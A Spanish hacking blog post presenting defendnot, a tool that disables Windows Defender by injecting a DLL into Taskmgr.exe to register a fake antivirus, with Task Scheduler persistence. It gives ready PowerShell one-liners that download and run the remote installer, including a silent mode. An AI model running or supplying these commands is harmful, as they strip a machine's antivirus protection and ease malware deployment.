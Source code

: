 ```yaml
---
title: Nueva herramienta para desactivar Windows Defender
date: 2025-05-21 09:00:00 
categories: [HACKING]
tags: [hacking, tools, vulnerabilidad, ciberseguridad, malware]
description: Defendnot explota la API del Centro de Seguridad de Windows (WSC)..
image: /assets/135/preview1.png
---
```


Hoy traemos una herramienta para desactivar Microsoft Defender creada por es3n1n, hablamos de defendnot y se trata de la evolución de su no-defender, que fue retirada de GitHub tras una DMCA. Lo que ha hecho esta vez el propio es3n1n es un clean-room implementation: sin depender de AVs reales ni DLLs de terceros, y más centrado en un reverse engineering profundo del WSC.

<img src="/assets/135/135-01.pg"  width="400" height="400">

La verdadera joya está en el writeup que el propio es3n1n publicó, donde describe cómo desmontó pieza a pieza el WSC para burlar sus defensas:

- WSC usa un API COM que verifica quién llama, validando la firma digital, que el proceso esté PPL, y otros checks en la seguridad del token del proceso (concretamente el SID de WinDefend).
- Los primeros intentos inyectando código en procesos comunes (como cmd.exe) fallaron porque no tenían las banderas correctas ni la firma PPL necesaria.
- Se dio cuenta que el proceso WSC está protegido con PPL, pero eso se puede saltar con un driver en modo kernel que desactiva esa protección (en entornos de pruebas).
- El punto clave fue elegir Taskmgr.exe como víctima para la inyección DLL, porque cumple con todos los requisitos de firma y PPL, pero no es un AV, lo que permite “engañar” al WSC.
- Además, entendió que WSC verifica el flag ForceIntegrity en las características DLL (DllCharacteristics) para validar que el proceso que hace las llamadas es legítimo.
- Para pasar el chequeo de tokens y evitar que se vincule con Windows Defender, no basta con impersonar el SID WinDefend (de hecho, esa técnica no funcionó), sino que hay que tener un proceso legítimo que cumpla todas las verificaciones.
- Finalmente, definió un mecanismo propio para transferir parámetros entre loader y DLL usando un archivo ctx.bin y para gestionar la persistencia con el Task Scheduler (teniendo cuidado con las condiciones de energía del sistema que pueden impedir la ejecución automática).

<img src="/assets/135/135-02.jpg"  width="300" height="200">

Es decir, básicamente Defendnot explota la API del Centro de Seguridad de Windows (WSC), la misma que usan los antivirus para decir “eh, soy el p*** amo aquí”. Y Windows, para evitar conflictos, automáticamente desactiva Defender cuando detecta un antivirus registrado. Hasta aquí, normal.

Pero la gracia está en cómo Defendnot hace el registro. No solo engaña a Windows haciéndole creer que hay un antivirus activo, sino que además:

**Bypassea mecanismos de defensa clave:**
- Protected Process Light (PPL): ese "muro" que impide meter código no firmado en procesos críticos.
- Firmas digitales previamente válidas:  no hay necesidad de firmar nada, porque inyecta una DLL dentro del proceso Taskmgr.exe (el Administrador de tareas), que es un proceso protegido y firmado por Microsoft.

**Inyección de DLL:**: Defendnot introduce su código malicioso dentro de Taskmgr.exe para registrar el antivirus falso. Al estar dentro de un proceso de confianza, se evita que Windows levante alarmas inmediatas.

**Loader personalizable**: Puedes cambiar el nombre del antivirus falso, desactivar el registro si quieres, y activar un logging bien verboso para trazar cada movimiento.

**Persistencia**: Usa el Windows Task Scheduler para automatizar su ejecución tras reinicios, manteniendo el truco vivo incluso después de apagar y encender el PC.

##### Instalación

Abre PowerShell como administrador y ejecuta cualquiera de estos comandos:

    # Example 1: Basic installation
    irm https://dnot.sh/ | iex
    
    # Example 2: With custom AV name
    & ([ScriptBlock]::Create((irm https://dnot.sh/))) --name "Custom AV name"
    
    # Example 3: Without allocating console
    & ([ScriptBlock]::Create((irm https://dnot.sh/))) --silent

**Nota**
Como se muestra en los ejemplos 2 y 3, puedes pasar argumentos por línea de comandos al script de instalación y este los enviará a defendnot-loader. Para referencia sobre qué argumentos están permitidos, consulta la sección Uso más abajo.

**Nota**
También puedes usar directamente la versión ‘larga’ del script de instalación, que es:
[https://raw.githubusercontent.com/es3n1n/defendnot/refs/heads/master/install.ps1](https://raw.githubusercontent.com/es3n1n/defendnot/refs/heads/master/install.ps1)

**Manual**
Descarga la última release, extráela en algún lugar y ejecuta defendnot-loader.

**Uso**

    Usage: defendnot-loader [--help] [--version] [--name VAR] [--disable] [--verbose] [--silent] [--autorun-as-user] [--disable-autorun]
    
    Optional arguments:
      -h, --help         prints help message and exits
      --version          shows version and exits
      -n, --name         av display name [default: "https://github.com/es3n1n/defendnot"]
      -d, --disable      disable defendnot
      -v, --verbose      verbose logging
      --silent           do not allocate console
      --autorun-as-user  create autorun task as currently logged in user
      --disable-autorun  disable autorun task creation

**Para cerrar**

Defendnot es el resultado de días de ingeniería inversa, debugging remoto con latencia de 210ms, uso de drivers para saltarse protecciones kernel, y un conocimiento profundo del funcionamiento interno de WSC y Windows Defender.

Si estás en el mundo del pentesting, red teaming o simplemente te mola entender cómo funcionan los sistemas de defensa de Windows y cómo romperlos (todo con la intención de mejorar la seguridad, claro), Defendnot es un proyecto que deberías tener en el radar ;)



